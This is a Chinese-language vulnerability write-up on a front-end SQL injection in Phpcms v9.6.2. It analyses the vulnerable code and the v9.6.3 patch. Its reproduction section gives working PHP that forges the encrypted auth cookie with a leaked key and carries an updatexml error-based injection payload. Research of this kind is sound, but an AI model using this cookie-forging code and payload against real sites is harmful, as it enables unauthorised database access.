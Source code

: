 Phpcms v9.6.2 前台sql注入
=========================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms v9.6.2

三、复现过程
------------

### 漏洞分析

这个版本的的注入，是建立在任意文件读取漏洞存在的情况下才可利用。通过任意文件读取漏洞获得加解密的
**key** 值，我们可以用这个 **key** 加密我们的 **SQL注入payload**
。由于程序对解密后的数据并未过滤，最终导致漏洞发生。严格上来讲
**v9.6.2** 版本的注入只能在 **windows**
上利用，具体原因在上面的任意文件读取漏洞分析时也说了。下面我们来具体分析一下这个漏洞。

漏洞文件位于 **phpcms/modules/member/classes/foreground.class.php**
，代码如下图。我们可以明显看到下图第33行，程序直接将解密后的数据未经过滤直接带入查询。而待解密数据
**\$phpcms\_auth** 和解密秘钥 **\$auth\_key** 均可构造。

![](./resource/Phpcmsv9.6.2前台sql注入/media/rId25.png)

我们先来看一下待解密数据 **\$phpcms\_auth**
如何构造。从下图中，可以看出程序将从 **cookie** 中的 **xxx\_auth**
字段经过 **sys\_auth** 函数解密后，返回给了 **\$phpcms\_auth**
，而默认情况下使用 **pc\_base::load\_config(\'system\', \'auth\_key\')**
作为加解密的 **key** 值。

![](./resource/Phpcmsv9.6.2前台sql注入/media/rId26.png)

而 **pc\_base::load\_config(\'system\', \'auth\_key\')**
的值在网站搭建好后，会存储在 **caches/configs/system.php**
中，我们可以通过任意文件读取来获得这个值。

![](./resource/Phpcmsv9.6.2前台sql注入/media/rId27.png)

现在 **\$phpcms\_auth** 已经搞定了，我们再来看看 **\$auth\_key =
get\_auth\_key(\'login\')** 如何构造，跟进 **get\_auth\_key**
的代码。我们可以看到 **\$auth\_key** 由
**\$prefix、pc\_base::load\_config(\'system\',\'auth\_key\')、ip()**
三个元素决定。前两个都是已知的，而第三个获取用户IP的函数存在IP伪造的问题，也可以是固定的。

![](./resource/Phpcmsv9.6.2前台sql注入/media/rId28.png)

所以 **get\_auth\_key(\'login\')**
的值也是我们可以构造的，剩下的事情只要我们将 **payload**
传给加密函数加密两次即可。我们最后再来看一下 **PHPCMS v9.6.3**
中是如何修复这个漏洞的，补丁如下：

![](./resource/Phpcmsv9.6.2前台sql注入/media/rId29.png)

可以明显看到，补丁将解密后获得的 **\$userid** 进行了强转。

### 漏洞复现

分析完毕后得到大致流程：

解密操作：get\_cookie('auth')
得到\$phpcms\_auth，get\_auth\_key('login')得到\$auth\_key，然后sys\_auth(\$phpcms\_auth,
'DECODE', \$auth\_key)。

再通俗些的话：sys\_auth方法对cookie中包含auth的参数名对应的密文值，先使用配置文件中的auth\_key进行sys\_auth得到的值作为第一次解密后的值，然后使用配置文件中的auth\_key的值与客户端请求的IP拼接做MD5加密的值做为新的key，第一次解密后的值与新的key最后传入sys\_auth进行解密得到最终的明文。

反之加密方法便是：

使用配置文件中的auth\_key的值与客户端请求的IP拼接做MD5加密的值做为新的key，使用新的key与明文进行sys\_auth得到的值作为第一次加密的密文，然后使用配置文件中的auth\_key作为key与第一次加密的密文传入sys\_auth得到的值作为最终的密文，也就是cookie字段名称中包含auth的参数对应的值。

**如下是将各个文件中的加密解密方法抓取出来稍作修改，在本地进行payload的加解密操作：**

    <?php
    function sys_auth($string, $operation = 'ENCODE', $key = '', $expiry = 0,$auth_key='7G6idVtMAxhgFVu5vGp1') {
        $ckey_length = 4;
        $key = md5($key != '' ? $key : $auth_key);
        $keya = md5(substr($key, 0, 16));
        $keyb = md5(substr($key, 16, 16));
        $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
        $cryptkey = $keya.md5($keya.$keyc);
        $key_length = strlen($cryptkey);

        $string = $operation == 'DECODE' ? base64_decode(strtr(substr($string, $ckey_length), '-_', '+/')) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
        $string_length = strlen($string);

        $result = '';
        $box = range(0, 255);

        $rndkey = array();
        for($i = 0; $i <= 255; $i++) {
            $rndkey[$i] = ord($cryptkey[$i % $key_length]);
        }

        for($j = $i = 0; $i < 256; $i++) {
            $j = ($j + $box[$i] + $rndkey[$i]) % 256;
            $tmp = $box[$i];
            $box[$i] = $box[$j];
            $box[$j] = $tmp;
        }

        for($a = $j = $i = 0; $i < $string_length; $i++) {
            $a = ($a + 1) % 256;
            $j = ($j + $box[$a]) % 256;
            $tmp = $box[$a];
            $box[$a] = $box[$j];
            $box[$j] = $tmp;
            $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
        }

        if($operation == 'DECODE') {
            if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
                return substr($result, 26);
            } else {

                return '';
            }
        } else {
            return $keyc.rtrim(strtr(base64_encode($result), '+/', '-_'), '=');
        }
    }

    function get_auth_key($prefix,$suffix="",$ip='127.0.0.1',$auth_key='7G6idVtMAxhgFVu5vGp1') {
        if($prefix=='login'){
            $pc_auth_key = md5($auth_key.$ip);
        }else if($prefix=='email'){
            $pc_auth_key = md5($auth_key);
        }else{
            $pc_auth_key = md5($auth_key.$suffix);
        }
        $authkey = md5($prefix.$pc_auth_key);
        return $authkey;
    }

    //解密过程
    //step 1
    $encryption_str = '6fc7TB1Y1nIRK5HunMc5HAUw5WkBLLuQGBiOISDhJM4d8N8WHHOvqMaUSyWrZdVdH046oGv_e_Ir6Q157UV-yT5Aksuc_h_4RfwZqsEwDHfQckv4SReOiYFxm083X7Tydcw-nUy8l3nP-ouUGl59sN4';
    $operation1 = 'DECODE';
    $decryption_step1 = (sys_auth($encryption_str, $operation1));
    echo 'decryption_step1 result:'.$decryption_step1."\n";

    //step 2
    $decryption_step2 = $decryption_step1;
    $auth_key = get_auth_key('login');
    echo 'decryption_step2 result:'.sys_auth($decryption_step2, 'DECODE', $auth_key)."\n";

    echo '-----------------------'."\n" ;


    //加密过程
    //step 1
    $clear_str = "1'or updatexml(1,concat(0x7e,(select user()),0x7e),1)  or '1    f867fef04bd76d95abe01300951ca336";
    $operation2 = 'ENCODE';
    $encryption_step1 = sys_auth($clear_str, 'ENCODE', $auth_key);
    echo 'encryption_step1 result:'.$encryption_step1."\n";

    //step 2
    $encryption_step2 = (sys_auth($encryption_step1, $operation2));
    echo 'encryption_step2 result:'.$encryption_step2;

使用上面的代码可以进行解密和加密，下图中decryption\_step2
result的值便是对payload进行解密的最终结果，encryption\_step2的值是对payload进行加密的最终结果。

![](./resource/Phpcmsv9.6.2前台sql注入/media/rId31.png)

最终利用的现象，cookie中的YDVIB\_auth参数名称，前缀是安装时候生成的可能不一样，可以在配置文件中找到对应的值，可以先注册普通用户然后看服务端下发的cookie中字段名称中xxx\_auth的参数名称，便是存在漏洞的位置。

![](./resource/Phpcmsv9.6.2前台sql注入/media/rId32.png)

参考链接
--------

> <https://www.freebuf.com/column/158352.html>
>
> <https://xz.aliyun.com/t/5731>
